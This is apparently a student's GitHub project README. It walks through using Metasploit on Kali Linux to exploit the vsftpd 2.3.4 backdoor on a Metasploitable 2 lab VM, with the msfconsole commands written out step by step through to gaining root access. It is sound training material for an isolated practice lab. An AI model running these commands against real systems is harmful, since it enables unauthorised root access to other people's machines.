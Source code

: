 # CSN-Project

Software Evaluating - Metasploit

Name - Ricardo Antonio

# Tools used
- Metasploit - Security Tool that scans machines for known exploits and is able to execute the exploits in a payload on victim machine
- Kali Linux - Pen Testing OS used by InfoSec professionals, comes preinstalled with pen testing software
- Metasploitable - Vulnerable VM used for practice for hacking into Systems
- Virutal Box - hypervisor used for creation and managment of Virutal Machines

# Reason why working with Metasploit 
Metasploit is industry recognized and used by InfoSec professionals for testing networks for vulnerabilites. By researching this tool and learning how it works, I will gain valuable experience in CyberSecurity.

# Overview of Metasploit
The workflow of metasploit is as follows:
- Run msfconsole in terminal
- Scan victim machine for exploits
- Load exploit in payload
- Execute payload against target machine

# Project
Use Metasploit on a Kali Linux VM to use a common exploit to gain access backdoor root access to victim machine. The exploit was discovered in 2011 on the 2.3.4 version of VSFTPD (Very Secure FTP Daemon). VSFTPD is a secure unix based ftp server, this vulnerability was disocvered in 2011 in version 2.3.4 of VSFTPD. 

# Project Setup
Tools to download
- Kali linux
- Metasploitable 2
- Virtualbox

# Steps

1. Install Kali Linux and Metasploitable VMs into Virutal Box

2. Remove Kali and Metasploitable from your network by changing Network option to Host-only Adapter, so that you don't leave your network vulnerable

<img width="597" alt="SNIP-1" src="https://user-images.githubusercontent.com/98781636/167211743-03a9c129-4649-43f2-9e20-ebfc9032a972.PNG">

3. Start Metasploitable VM on Virtual box, login and password will be msfadmin

4. Once Metasploitable VM is started, power on Kali Linux, once in Kali open terminal and run command 'msfconsole' to start metasploit shell

<img width="89" alt="SNIP-2" src="https://user-images.githubusercontent.com/98781636/167217134-6a38eedc-29fe-489b-9fc2-ad5c0633fc14.PNG">

5. Run the command 'search vstfpd' to search for the vulnerability by name

<img width="467" alt="SNIP-3" src="https://user-images.githubusercontent.com/98781636/167223056-f611ba3c-b94b-4a78-be36-7b87c9021d10.PNG">

6. Once search reveals location of vulnerability, load it into the payload by typing 'use exploit/unix/ftp/vsftpd_234_backdoor'

<img width="278" alt="SNIP-4" src="https://user-images.githubusercontent.com/98781636/167223076-22351d64-0b65-49d5-a4e4-d6ece15ad55d.PNG">

7. Type 'set RHOST [VICTIM IP]' to start attack on victim machine

<img width="346" alt="SNIP-5" src="https://user-images.githubusercontent.com/98781636/167223117-4365ed65-28c9-46dc-a8bc-7f8c5fc98057.PNG">

8. To find IP address of Metasploitable machine type 'ifconfig' into the shell

10. Run the 'run' command on the kali machine msf console

<img width="404" alt="SNIP-6" src="https://user-images.githubusercontent.com/98781636/167223155-07305578-62a5-4fe9-a759-299e9cfce4dc.PNG">

11. You now have root access into the machine!
